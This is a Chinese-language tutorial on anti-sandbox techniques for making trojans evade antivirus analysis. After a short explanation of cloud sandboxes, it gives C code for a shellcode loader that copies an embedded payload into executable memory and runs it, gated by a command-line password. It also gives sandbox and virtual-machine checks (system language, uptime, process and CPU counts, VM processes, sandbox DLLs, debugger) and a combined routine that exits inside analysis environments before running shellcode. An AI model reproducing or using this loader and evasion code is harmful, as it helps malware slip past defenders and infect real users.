

1.什么是沙箱¶
1.1云沙箱的背景¶
随着互联网的发展，网络安全问题也日益严峻。恶意软件、网络攻击等威胁不断涌现，给个人用户和企业带来了巨大的损失。为了解决这一问题，云沙箱技术应运而生。
云沙箱是一种基于虚拟化技术的安全防护机制，主要用于对可疑文件、恶意代码进行分析和检测。其原理是通过在云端建立隔离的虚拟环境，将待分析的文件或代码运行在这个环境中，以模拟真实的操作系统和网络环境。通过监控和分析其行为，发现并识别其中的恶意行为。
1.2云沙箱的工作流程¶
- 提交样本：用户将怀疑存在恶意的文件或代码提交给云沙箱系统。这些样本可能是通过电子邮 件、下载或其他途径获得的。
- 环境隔离：云沙箱系统将待分析的样本运行在隔离的虚拟环境中。这个虚拟环境与真实的操作系 统和网络环境相似，但是与真实系统完全隔离，以防止样本对真实系统的伤害。
- 动态行为分析：在虚拟环境中，云沙箱系统监控样本的行为和操作。它记录样本的文件操作、注 册表修改、网络连接等行为，并生成行为日志。
- 恶意行为检测：云沙箱系统使用各种检测技术来分析样本的行为日志，以确定其中是否存在恶意 行为。这些技术包括基于特征的检测、行为模式分析、机器学习等。
- 报告生成：云沙箱系统根据分析结果生成报告。报告中包含样本的基本信息、行为日志、恶意行 为检测结果等。这些报告可以帮助用户了解样本的威胁程度和行为特征。
2.为什么要反沙箱¶
反沙箱是木马免杀中极为重要的一个步骤, 大部分杀软本地都会有一个内置的沙箱/或者云上沙箱,当我们想要运行一个exe时,都会在沙箱中模拟运行, 进行检测
那么如何进行反沙箱呢?
思考云沙箱和真实环境的差异, 或者是云沙箱针对你当前的环境的差异, 针对性的反沙箱
3.反沙箱的方法¶
3.1分离加载¶
本地或者网络, 参考之前
3.2参数启动¶
指的是在启动exe的时候, 通过命令行的参数启动, 推荐参数一定要是强参数
示例
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗口
unsigned char sc[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main(int argc, char* argv[]) {
if (strcmp(argv[1], "dabaige") != 0) {
return 1;
}
// 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
// 申请失败 , 退出
if (addr == NULL) {
return 1;
}
// 把shellcode拷贝到这块内存
memcpy(addr, sc, sizeof(sc));
// 创建线程运行
HANDLE hThread = CreateThread(NULL,
NULL,
(LPTHREAD_START_ROUTINE)addr,
NULL,
NULL,
0);
// 等待线程运行
WaitForSingleObject(hThread, -1);
// 关闭线程
CloseHandle(hThread);
}

首先查杀是否是木马
3.3常规反沙箱¶
我们可以通过 语言检测 , 开机时间、延迟执行、物理内存、CPU核心数，文件名、磁盘大小、用户名、进程名去判断是否是在沙箱的环境中, 如果是在沙箱的环境, 那就退出
检测中文¶
int check() {
LANGID langId = GetUserDefaultUILanguage();
if (PRIMARYLANGID(langId) == LANG_CHINESE)
{
printf("Chinese");
RunCode(); // 运行我们的代码
}
else
{
printf("Error");
exit(1);
}
return 0;
}
检测开机时间¶
int checkStartTime(){
ULONG uptime = GetTickCount();
if (uptime >= 10 * 60 * 1000) { // 开机时间大于10分钟
RunCode(); // 运行我们的代码
}
else {
exit(1);
}
}
延迟执行，检测虚拟机¶
int checkVm(char* name) {
const char* list[4] = { "vmtoolsd.exe","vmwaretrat.exe","vmwareuser.exe","vmacthlp.exe" };
for (int i = 0; i < 4; i++) {
if (strcmp(name, list[i]) == 0)
return -1;
}
return 0;
}
bool CheckProcess() {
PROCESSENTRY32 pe32;
pe32.dwSize = sizeof(pe32);
HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
BOOL bResult = Process32First(hProcessSnap, &pe32);
while (bResult) {
char ss_Name[MAX_PATH] = { 0 };
WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ss_Name, sizeof(ss_Name),
NULL, NULL);
//printf("%s\n", ss_Name);
if (check(ss_Name) == -1)
return false;
bResult = Process32Next(hProcessSnap, &pe32);
}
return true;
}
完整的反沙箱代码¶
#include <windows.h>
#include <iostream>
#include <intrin.h>
#include <Iphlpapi.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <Pdh.h>
#include <string>
#pragma comment(lib, "IPHLPAPI.lib")
#pragma comment(lib, "Psapi.lib")
#pragma comment(lib, "Pdh.lib")
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
// 是否出于调试器中
bool isDebuggerPresent() {
return IsDebuggerPresent() || CheckRemoteDebuggerPresent(GetCurrentProcess(), nullptr);
}
// 检测cpu是否支持虚拟化
bool checkCpuVirtualization() {
int cpuInfo[4];
__cpuid(cpuInfo, 1);
return (cpuInfo[2] & (1 << 31)) != 0;
}
// 检测语言是否是非中文
bool checkLan() {
LANGID langId = GetUserDefaultUILanguage();
if (PRIMARYLANGID(langId) == LANG_CHINESE)
{
return false;
}
else
{
return true;
}
}
// 检测进程数量是否小于60
bool checkProcessCount() {
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
if (hSnapshot == INVALID_HANDLE_VALUE) {
return false;
}
int processCount = 0;
if (Process32First(hSnapshot, &pe32)) {
do {
processCount++;
} while (Process32Next(hSnapshot, &pe32));
}
CloseHandle(hSnapshot);
return processCount < 60;
}
// 检cpu数量是否小于4
bool checkCpuCount() {
SYSTEM_INFO systemInfo;
GetSystemInfo(&systemInfo);
return systemInfo.dwNumberOfProcessors < 4;
}
bool checkStartTime() {
ULONG uptime = GetTickCount();
if (uptime >= 10 * 60 * 1000) { // 开机时间大于10分钟
return false;
}
else {
return true;
}
};
// 检测是否存在沙箱dll
bool checkSandboxDlls() {
// Check for known sandbox-related DLLs
return GetModuleHandle(L"Cuckoo") || GetModuleHandle(L"vmcheck") ||
GetModuleHandle(L"SandboxieDll") ||
GetModuleHandle(L"snxhk.dll") || GetModuleHandle(L"vmsrvc") ||
GetModuleHandle(L"cmdvrt32") ||
GetModuleHandle(L"SbieDll.dll") || GetModuleHandle(L"dbghelp.dll");
}
bool checkAdminUser() {
wchar_t userName[UNLEN + 1];
DWORD userNameSize = UNLEN + 1;
// 获取当前计算机用户名
if (GetUserName(userName, &userNameSize)) {
wprintf(L"Current User: %s\n", userName);
// 检查用户名是否为"admin"
if (wcscmp(userName, L"admin") == 0) {
return false; // 是"admin"
}
else {
return true; // 不是"admin"
}
}
else {
wprintf(L"Error getting user name. Error code: %d\n", GetLastError());
return false;
}
}
// 总的检测函数
bool checkEnvironment() {
return isDebuggerPresent() || checkCpuVirtualization() || checkStartTime() || checkLan() ||
checkProcessCount() || checkSandboxDlls() || checkCpuCount();
}
int main() {
if (checkEnvironment()) {
// 沙箱退出
//std::cout << "Detected sandbox environment. Exiting..." << std::endl;
return 1;
}
// 运行shellcode
}